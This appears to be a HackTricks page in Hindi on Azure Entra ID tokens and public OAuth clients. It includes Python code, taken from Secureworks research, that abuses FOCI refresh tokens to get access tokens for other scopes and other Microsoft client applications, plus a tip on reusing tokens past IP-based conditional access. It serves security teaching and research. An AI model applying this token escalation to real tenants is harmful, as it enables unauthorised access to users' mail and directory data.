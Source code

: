 # Az - Tokens & Public Applications

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

Entra ID माइक्रोसॉफ्ट का क्लाउड-आधारित पहचान और पहुंच प्रबंधन (IAM) प्लेटफ़ॉर्म है, जो Microsoft 365 और Azure Resource Manager जैसी सेवाओं के लिए मौलिक प्रमाणीकरण और प्राधिकरण प्रणाली के रूप में कार्य करता है। Azure AD OAuth 2.0 प्राधिकरण ढांचे और OpenID Connect (OIDC) प्रमाणीकरण प्रोटोकॉल को संसाधनों तक पहुंच प्रबंधित करने के लिए लागू करता है।

### OAuth

**OAuth 2.0 में प्रमुख प्रतिभागी:**

1. **Resource Server (RS):** संसाधनों की रक्षा करता है जो संसाधन मालिक के पास हैं।
2. **Resource Owner (RO):** आमतौर पर एक अंतिम उपयोगकर्ता जो संरक्षित संसाधनों का मालिक होता है।
3. **Client Application (CA):** एक एप्लिकेशन जो संसाधन मालिक की ओर से संसाधनों तक पहुंच प्राप्त करने का प्रयास करता है।
4. **Authorization Server (AS):** प्रमाणीकरण और प्राधिकरण के बाद क्लाइंट एप्लिकेशनों को एक्सेस टोकन जारी करता है।

**Scopes और Consent:**

- **Scopes:** संसाधन सर्वर पर परिभाषित सूक्ष्म अनुमतियाँ जो पहुँच स्तर निर्दिष्ट करती हैं।
- **Consent:** वह प्रक्रिया जिसके द्वारा एक संसाधन मालिक एक क्लाइंट एप्लिकेशन को विशिष्ट स्कोप के साथ संसाधनों तक पहुँच प्राप्त करने की अनुमति देता है।

**Microsoft 365 Integration:**

- Microsoft 365 IAM के लिए Azure AD का उपयोग करता है और इसमें कई "पहली-पार्टी" OAuth एप्लिकेशन शामिल हैं।
- ये एप्लिकेशन गहराई से एकीकृत होते हैं और अक्सर आपस में निर्भर सेवा संबंध होते हैं।
- उपयोगकर्ता अनुभव को सरल बनाने और कार्यक्षमता बनाए रखने के लिए, माइक्रोसॉफ्ट इन पहली-पार्टी एप्लिकेशनों को "अर्थित सहमति" या "पूर्व-सहमति" प्रदान करता है।
- **Implied Consent:** कुछ एप्लिकेशनों को बिना स्पष्ट उपयोगकर्ता या प्रशासक अनुमोदन के विशिष्ट स्कोप तक पहुँच **स्वतः प्रदान की जाती है**।
- ये पूर्व-सहमति वाले स्कोप आमतौर पर उपयोगकर्ताओं और प्रशासकों दोनों से छिपे होते हैं, जिससे वे मानक प्रबंधन इंटरफेस में कम दिखाई देते हैं।

**Client Application Types:**

1. **Confidential Clients:**
- अपने स्वयं के क्रेडेंशियल्स (जैसे, पासवर्ड या प्रमाणपत्र) रखते हैं।
- प्राधिकरण सर्वर के लिए **सुरक्षित रूप से प्रमाणीकरण** कर सकते हैं।
2. **Public Clients:**
- अद्वितीय क्रेडेंशियल्स नहीं होते हैं।
- प्राधिकरण सर्वर के लिए सुरक्षित रूप से प्रमाणीकरण नहीं कर सकते हैं।
- **Security Implication:** एक हमलावर टोकन मांगते समय एक सार्वजनिक क्लाइंट एप्लिकेशन का अनुकरण कर सकता है, क्योंकि प्राधिकरण सर्वर के लिए एप्लिकेशन की वैधता की पुष्टि करने का कोई तंत्र नहीं है।

## Authentication Tokens

OIDC में **तीन प्रकार के टोकन** होते हैं:

- [**Access Tokens**](https://learn.microsoft.com/en-us/azure/active-directory/develop/access-tokens)**:** क्लाइंट इस टोकन को संसाधन सर्वर को **संसाधनों तक पहुँचने** के लिए प्रस्तुत करता है। इसे केवल उपयोगकर्ता, क्लाइंट और संसाधन के विशिष्ट संयोजन के लिए उपयोग किया जा सकता है और **समाप्ति तक रद्द नहीं किया जा सकता** - जो कि डिफ़ॉल्ट रूप से 1 घंटा है।
- **ID Tokens**: क्लाइंट को यह **टोकन प्राधिकरण सर्वर से प्राप्त होता है**। इसमें उपयोगकर्ता के बारे में बुनियादी जानकारी होती है। यह **उपयोगकर्ता और क्लाइंट के विशिष्ट संयोजन से बंधा होता है**।
- **Refresh Tokens**: एक्सेस टोकन के साथ क्लाइंट को प्रदान किया जाता है। इसका उपयोग **नए एक्सेस और ID टोकन प्राप्त करने** के लिए किया जाता है। यह उपयोगकर्ता और क्लाइंट के विशिष्ट संयोजन से बंधा होता है और इसे रद्द किया जा सकता है। डिफ़ॉल्ट समाप्ति **90 दिन** है निष्क्रिय रिफ्रेश टोकन के लिए और **सक्रिय टोकन के लिए कोई समाप्ति नहीं** (एक रिफ्रेश टोकन से नए रिफ्रेश टोकन प्राप्त करना संभव है)।
- एक रिफ्रेश टोकन को एक **`aud`** से, कुछ **scopes** से, और एक **tenant** से बंधा होना चाहिए और इसे केवल उस aud, scopes (और अधिक नहीं) और tenant के लिए एक्सेस टोकन उत्पन्न करने में सक्षम होना चाहिए। हालाँकि, यह **FOCI एप्लिकेशन टोकन** के साथ ऐसा नहीं है।
- एक रिफ्रेश टोकन एन्क्रिप्टेड होता है और केवल माइक्रोसॉफ्ट इसे डिक्रिप्ट कर सकता है।
- नया रिफ्रेश टोकन प्राप्त करने से पिछले रिफ्रेश टोकन रद्द नहीं होता है।

> [!WARNING]
> **Conditional access** के लिए जानकारी **JWT** के अंदर **स्टोर** की जाती है। इसलिए, यदि आप **अनुमत IP पते** से **टोकन का अनुरोध करते हैं**, तो वह **IP** टोकन में **स्टोर** किया जाएगा और फिर आप उस टोकन का उपयोग **गैर-अनुमत IP से संसाधनों तक पहुँचने** के लिए कर सकते हैं।

### Access Tokens "aud"

"aud" फ़ील्ड में निर्दिष्ट फ़ील्ड **resource server** (एप्लिकेशन) है जिसका उपयोग लॉगिन करने के लिए किया जाता है।

कमांड `az account get-access-token --resource-type [...]` निम्नलिखित प्रकारों का समर्थन करता है और इनमें से प्रत्येक परिणामस्वरूप एक्सेस टोकन में एक विशिष्ट "aud" जोड़ेगा:

> [!CAUTION]
> ध्यान दें कि निम्नलिखित केवल `az account get-access-token` द्वारा समर्थित APIs हैं लेकिन और भी हैं।

<details>

<summary>aud उदाहरण</summary>

- **aad-graph (Azure Active Directory Graph API)**: पुराने Azure AD Graph API (deprecated) तक पहुँचने के लिए उपयोग किया जाता है, जो एप्लिकेशनों को Azure Active Directory (Azure AD) में निर्देशिका डेटा पढ़ने और लिखने की अनुमति देता है।
- `https://graph.windows.net/`

* **arm (Azure Resource Manager)**: Azure Resource Manager API के माध्यम से Azure संसाधनों का प्रबंधन करने के लिए उपयोग किया जाता है। इसमें वर्चुअल मशीनों, स्टोरेज खातों, और अधिक जैसे संसाधनों को बनाने, अपडेट करने और हटाने जैसी क्रियाएँ शामिल हैं।
- `https://management.core.windows.net/ or https://management.azure.com/`

- **batch (Azure Batch Services)**: Azure Batch तक पहुँचने के लिए उपयोग किया जाता है, जो क्लाउड में बड़े पैमाने पर समानांतर और उच्च-प्रदर्शन कंप्यूटिंग एप्लिकेशनों को कुशलतापूर्वक सक्षम करता है।
- `https://batch.core.windows.net/`

* **data-lake (Azure Data Lake Storage)**: Azure Data Lake Storage Gen1 के साथ बातचीत करने के लिए उपयोग किया जाता है, जो एक स्केलेबल डेटा स्टोरेज और एनालिटिक्स सेवा है।
- `https://datalake.azure.net/`

- **media (Azure Media Services)**: Azure Media Services तक पहुँचने के लिए उपयोग किया जाता है, जो वीडियो और ऑडियो सामग्री के लिए क्लाउड-आधारित मीडिया प्रसंस्करण और वितरण सेवाएँ प्रदान करता है।
- `https://rest.media.azure.net`

* **ms-graph (Microsoft Graph API)**: Microsoft Graph API तक पहुँचने के लिए उपयोग किया जाता है, जो Microsoft 365 सेवाओं के डेटा के लिए एकीकृत एंडपॉइंट है। यह आपको Azure AD, Office 365, Enterprise Mobility, और Security सेवाओं जैसे सेवाओं से डेटा और अंतर्दृष्टि तक पहुँचने की अनुमति देता है।
- `https://graph.microsoft.com`

- **oss-rdbms (Azure Open Source Relational Databases)**: MySQL, PostgreSQL, और MariaDB जैसे ओपन-सोर्स रिलेशनल डेटाबेस इंजनों के लिए Azure Database सेवाओं तक पहुँचने के लिए उपयोग किया जाता है।
- `https://ossrdbms-aad.database.windows.net`

</details>

### Access Tokens Scopes "scp"

एक एक्सेस टोकन का स्कोप एक्सेस टोकन JWT के अंदर scp कुंजी के अंदर स्टोर किया जाता है। ये स्कोप परिभाषित करते हैं कि एक्सेस टोकन को क्या पहुँच प्राप्त है।

यदि एक JWT को एक विशिष्ट API से संपर्क करने की अनुमति है लेकिन **अनुरोधित क्रिया** को करने के लिए **स्कोप नहीं है**, तो यह उस JWT के साथ क्रिया करने में **असफल रहेगा**।

### Get refresh & access token example
```python
# Code example from https://github.com/secureworks/family-of-client-ids-research
import msal
import requests
import jwt
from pprint import pprint
from typing import Any, Dict, List


# LOGIN VIA CODE FLOW AUTHENTICATION
azure_cli_client = msal.PublicClientApplication(
"04b07795-8ddb-461a-bbee-02f9e1bf7b46" # ID for Azure CLI client
)
device_flow = azure_cli_client.initiate_device_flow(
scopes=["https://graph.microsoft.com/.default"]
)
print(device_flow["message"])

# Perform device code flow authentication

azure_cli_bearer_tokens_for_graph_api = azure_cli_client.acquire_token_by_device_flow(
device_flow
)
pprint(azure_cli_bearer_tokens_for_graph_api)



# DECODE JWT
def decode_jwt(base64_blob: str) -> Dict[str, Any]:
"""Decodes base64 encoded JWT blob"""
return jwt.decode(
base64_blob, options={"verify_signature": False, "verify_aud": False}
)
decoded_access_token = decode_jwt(
azure_cli_bearer_tokens_for_graph_api.get("access_token")
)
pprint(decoded_access_token)


# GET NEW ACCESS TOKEN AND REFRESH TOKEN
new_azure_cli_bearer_tokens_for_graph_api = (
# Same client as original authorization
azure_cli_client.acquire_token_by_refresh_token(
azure_cli_bearer_tokens_for_graph_api.get("refresh_token"),
# Same scopes as original authorization
scopes=["https://graph.microsoft.com/.default"],
)
)
pprint(new_azure_cli_bearer_tokens_for_graph_api)
```
## FOCI Tokens Privilege Escalation

पहले उल्लेख किया गया था कि रिफ्रेश टोकन को **स्कोप** से जोड़ा जाना चाहिए जिसके साथ इसे उत्पन्न किया गया था, **एप्लिकेशन** और **टेनेंट** से जिसे यह उत्पन्न किया गया था। यदि इनमें से कोई भी सीमा टूटती है, तो विशेषाधिकार बढ़ाना संभव है क्योंकि अन्य संसाधनों और टेनेंट के लिए एक्सेस टोकन उत्पन्न करना संभव होगा जिन तक उपयोगकर्ता की पहुंच है और जिनमें मूल रूप से निर्धारित से अधिक स्कोप हैं।

इसके अलावा, **यह सभी रिफ्रेश टोकनों के साथ संभव है** [Microsoft identity platform](https://learn.microsoft.com/en-us/entra/identity-platform/) (Microsoft Entra खाते, Microsoft व्यक्तिगत खाते, और Facebook और Google जैसे सामाजिक खाते) क्योंकि [**दस्तावेज़**](https://learn.microsoft.com/en-us/entra/identity-platform/refresh-tokens) में उल्लेख किया गया है: "रिफ्रेश टोकन उपयोगकर्ता और क्लाइंट के संयोजन से बंधे होते हैं, लेकिन **किसी संसाधन या टेनेंट से जुड़े नहीं होते**। एक क्लाइंट रिफ्रेश टोकन का उपयोग करके एक्सेस टोकन प्राप्त कर सकता है **किसी भी संसाधन और टेनेंट के संयोजन में** जहां उसे ऐसा करने की अनुमति है। रिफ्रेश टोकन एन्क्रिप्टेड होते हैं और केवल Microsoft identity platform उन्हें पढ़ सकता है।"

इसके अलावा, ध्यान दें कि FOCI एप्लिकेशन सार्वजनिक एप्लिकेशन हैं, इसलिए **सर्वर पर प्रमाणीकरण के लिए कोई रहस्य आवश्यक नहीं है**।

फिर ज्ञात FOCI क्लाइंट्स [**मूल शोध**](https://github.com/secureworks/family-of-client-ids-research/tree/main) में रिपोर्ट किए गए हैं, जिन्हें [**यहां पाया जा सकता है**](https://github.com/secureworks/family-of-client-ids-research/blob/main/known-foci-clients.csv)।

### Get different scope

पिछले उदाहरण कोड के साथ आगे बढ़ते हुए, इस कोड में एक अलग स्कोप के लिए एक नया टोकन मांगा गया है:
```python
# Code from https://github.com/secureworks/family-of-client-ids-research
azure_cli_bearer_tokens_for_outlook_api = (
# Same client as original authorization
azure_cli_client.acquire_token_by_refresh_token(
new_azure_cli_bearer_tokens_for_graph_api.get(
"refresh_token"
),
# But different scopes than original authorization
scopes=[
"https://outlook.office.com/.default"
],
)
)
pprint(azure_cli_bearer_tokens_for_outlook_api)
```
### विभिन्न क्लाइंट और स्कोप प्राप्त करें
```python
# Code from https://github.com/secureworks/family-of-client-ids-research
microsoft_office_client = msal.PublicClientApplication("d3590ed6-52b3-4102-aeff-aad2292ab01c")
microsoft_office_bearer_tokens_for_graph_api = (
# This is a different client application than we used in the previous examples
microsoft_office_client.acquire_token_by_refresh_token(
# But we can use the refresh token issued to our original client application
azure_cli_bearer_tokens_for_outlook_api.get("refresh_token"),
# And request different scopes too
scopes=["https://graph.microsoft.com/.default"],
)
)
# How is this possible?
pprint(microsoft_office_bearer_tokens_for_graph_api)
```
## संदर्भ

- [https://github.com/secureworks/family-of-client-ids-research](https://github.com/secureworks/family-of-client-ids-research)

{{#include ../../../banners/hacktricks-training.md}}
